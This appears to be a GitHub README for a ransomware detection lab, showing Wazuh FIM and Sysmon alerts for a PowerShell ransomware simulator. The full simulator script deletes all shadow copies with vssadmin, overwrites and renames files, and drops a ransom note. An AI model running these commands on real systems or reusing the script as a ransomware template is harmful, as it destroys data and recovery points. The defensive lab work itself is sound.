








# Ransomware Behavior Analysis Lab


## Overview

This lab simulates ransomware behavior using a custom PowerShell script on a Windows 10 victim machine. The simulation encrypts target files, renames them with a `.encrypted` extension, and drops a ransom note (`README_RANSOM.txt`) on the Desktop and in the target folder.

Detection is achieved through **Wazuh FIM** (File Integrity Monitoring) in realtime mode, with endpoint visibility via **Sysmon** (Event ID 1), mapped to the **MITRE ATT&CK** framework.

**Key skills demonstrated:**
- Writing a custom ransomware behavior simulator in PowerShell
- Configuring Wazuh FIM realtime monitoring on a Windows agent
- Detecting mass file modification via Wazuh Rule 550 (T1565.001)
- Detecting ransom note creation via Wazuh Rule 554/550 in realtime mode
- Sysmon EID 1 capturing PowerShell execution with IntegrityLevel High
- MITRE ATT&CK mapping: T1486, T1490, T1565.001

---

## Lab Environment

| Role | OS | IP | Tools |
|---|---|---|---|
| Attacker | Windows 10 (VM) | 192.168.0.29 | PowerShell 5.1 (ransomware simulator) |
| Victim | Windows 10 (VM) | 192.168.0.29 | Sysmon v15, Wazuh Agent 004 |
| SIEM | Ubuntu Server (VM) | — | Wazuh 4.x |

**Note:** Attack and victim are on the same machine — simulating an insider threat or post-exploitation scenario where attacker already has local access.

---

## Lab Setup

### 1. Wazuh FIM Configuration (Windows Agent)

Wazuh FIM was configured on the Windows agent to monitor target directories in **realtime** mode.

Added to `C:\Program Files (x86)\ossec-agent\ossec.conf`:

```xml
<syscheck>
  <directories realtime="yes" report_changes="yes" check_all="yes">C:/Users/vboxuser/Documents</directories>
  <directories realtime="yes" report_changes="yes" check_all="yes">C:/Users/vboxuser/Desktop</directories>
</syscheck>
```

Key parameters:
- `realtime="yes"` — detects changes immediately, not on scheduled scan
- `report_changes="yes"` — logs what changed inside the file
- `check_all="yes"` — monitors hash, size, permissions, timestamps

### 2. Sysmon on Windows 10

```powershell
.\Sysmon64.exe -accepteula -i sysmonconfig.xml
Get-Service Sysmon64
# Status: Running
```

### 3. Create Target Files

```powershell
New-Item -Path "C:\Users\vboxuser\Documents\RansomTest" -ItemType Directory -Force

Set-Content "C:\Users\vboxuser\Documents\RansomTest\newdoc1.txt" "Sensitive financial data - Q1 2026"
Set-Content "C:\Users\vboxuser\Documents\RansomTest\newdoc2.txt" "Employee records - confidential"
Set-Content "C:\Users\vboxuser\Documents\RansomTest\newdoc3.txt" "Client database backup - restricted"
```

---

## Attack Simulation

### Ransomware Simulator Script

The script simulates three core ransomware behaviors:
1. **File encryption** — reads file content, Base64 encodes it (simulating encryption), overwrites the file
2. **File renaming** — appends `.encrypted` extension
3. **Ransom note drop** — creates `README_RANSOM.txt` in target folder and Desktop

```powershell
$targetFolder = "C:\Users\vboxuser\Documents\RansomTest"
$ransomNote = "YOUR FILES HAVE BEEN ENCRYPTED!

All your documents, photos and databases have been encrypted.
To recover your files send 0.5 BTC to wallet: 1A2B3C4D5E6F

Contact: recover@darkmail.onion

Do not try to recover files yourself - you will damage them permanently."

Write-Host "[*] Starting ransomware simulation..." -ForegroundColor Red

# Step 1 - Delete shadow copies (T1490)
vssadmin delete shadows /all /quiet 2>$null

# Step 2 - Encrypt files
Get-ChildItem -Path $targetFolder -Filter "*.txt" | ForEach-Object {
    $content = Get-Content $_.FullName -Raw
    $encrypted = [Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes($content))
    Set-Content -Path $_.FullName -Value $encrypted
    Rename-Item -Path $_.FullName -NewName ($_.BaseName + ".encrypted")
    Write-Host "[+] Encrypted: $($_.Name)" -ForegroundColor Green
}

# Step 3 - Drop ransom note
Set-Content -Path "$targetFolder\README_RANSOM.txt" -Value $ransomNote
Set-Content -Path "C:\Users\vboxuser\Desktop\README_RANSOM.txt" -Value $ransomNote

Write-Host "[!] Encryption complete! Files cannot be recovered without the key." -ForegroundColor Red
```

### Execution Output



### Encrypted Files — Explorer View



### Encrypted Files — PowerShell View



### Ransom Note Content





---

## Detection

### Sysmon — Event ID 1: PowerShell Process Creation

Sysmon captured the PowerShell process that executed the ransomware simulator:

| Field | Value |
|---|---|
| EventID | 1 |
| Image | `C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe` |
| ProcessId | 9864 |
| IntegrityLevel | **High** |
| ParentImage | `C:\Windows\explorer.exe` |
| User | `WINDOWS\vboxuser` |

> `IntegrityLevel: High` — PowerShell running with elevated privileges is a key IOC for ransomware execution.



### Wazuh FIM — Rule 550: Integrity Checksum Changed

Wazuh FIM detected **12 integrity checksum change events** in rapid succession — the mass file modification pattern characteristic of ransomware encryption:

| Field | Value |
|---|---|
| Rule ID | 550 |
| Rule Level | 7 |
| Rule Description | Integrity checksum changed |
| MITRE Technique | Stored Data Manipulation |
| MITRE ID | **T1565.001** |
| MITRE Tactic | Impact |
| Agent | windows10-lab (192.168.0.29) |
| Mode | **realtime** |

> **12 alerts in under 1 second** — the velocity of file modifications is the ransomware signature. Normal user activity does not modify 10+ files simultaneously.



### Wazuh FIM — Ransom Note Detection

Wazuh FIM detected the ransom note file (`readme_ransom.txt`) being created and modified on the Desktop:

```
File 'c:\users\vboxuser\desktop\readme_ransom.txt' modified
Mode: realtime
Changed attributes: mtime
```



---

## MITRE ATT&CK Mapping

| Technique ID | Name | Evidence |
|---|---|---|
| T1486 | Data Encrypted for Impact | 10 files encrypted, renamed to `.encrypted` |
| T1565.001 | Stored Data Manipulation | Wazuh Rule 550, 12 alerts, MITRE T1565.001 Impact |
| T1490 | Inhibit System Recovery | `vssadmin delete shadows /all /quiet` executed |
| T1059.001 | Command and Scripting Interpreter: PowerShell | Sysmon EID 1 — PowerShell, IntegrityLevel High |

---

## Screenshots Summary

| # | File | Stage |
|---|---|---|
| 1 | `ransomware-simulator-execution.png` | Ransomware simulator — encryption in progress |
| 2 | `encrypted-files-explorer.png` | Result — 10 encrypted files in Explorer |
| 3 | `encrypted-files-powershell.png` | Result — encrypted files list in PowerShell |
| 4 | `ransom-note-notepad.png` | Ransom note in Notepad |
| 5 | `ransom-note-powershell.png` | Ransom note content in PowerShell |
| 6 | `sysmon-eid1-powershell.png` | Sysmon EID 1 — PowerShell, IntegrityLevel High |
| 7 | `rule_550_T1565_001.png` | Wazuh — 12 alerts Rule 550 T1565.001 Impact |
| 8 | `wazuh-fim-realtime-detection.png` | Wazuh — realtime ransom note detection |

---

## Conclusions

- A custom PowerShell ransomware simulator successfully encrypted 10 target files and dropped a ransom note on the Desktop.
- **Wazuh FIM Rule 550** fired 12 alerts in under 1 second — the velocity pattern of simultaneous file modifications is the key ransomware indicator.
- **Wazuh FIM realtime mode** detected the ransom note (`readme_ransom.txt`) immediately upon creation on the Desktop.
- **Sysmon EID 1** captured the PowerShell process with `IntegrityLevel: High` — an IOC for elevated ransomware execution.
- **Key takeaway:** Ransomware detection relies on behavioral patterns — specifically the *velocity* of file modifications. A single file change is normal; 12 changes in under 1 second is an incident.

---

## Repository Structure

```
Ransomware-Behavior-Analysis-Lab/
├── README.md
├── scripts/
│   └── ransomware-simulator.ps1
├── screenshots/
│   ├── ransomware-simulator-execution.png
│   ├── encrypted-files-explorer.png
│   ├── encrypted-files-powershell.png
│   ├── ransom-note-notepad.png
│   ├── ransom-note-powershell.png
│   ├── sysmon-eid1-powershell.png
│   ├── rule_550_T1565_001.png
│   └── wazuh-fim-realtime-detection.png
└── configs/
    └── ossec-fim-config.xml
```

---

## Related Labs

- [Reverse-Shell-Detection-Lab](https://github.com/vitalijus-soc/Reverse-Shell-Detection-Lab) — msfvenom EXE payload, Sysmon + Suricata detection
- [Fileless-Malware-Lab](https://github.com/vitalijus-soc/Fileless-Malware-Lab) — PowerShell IEX payload, process migration
- [wazuh-sysmon-detection-lab](https://github.com/vitalijus-soc/wazuh-sysmon-detection-lab)
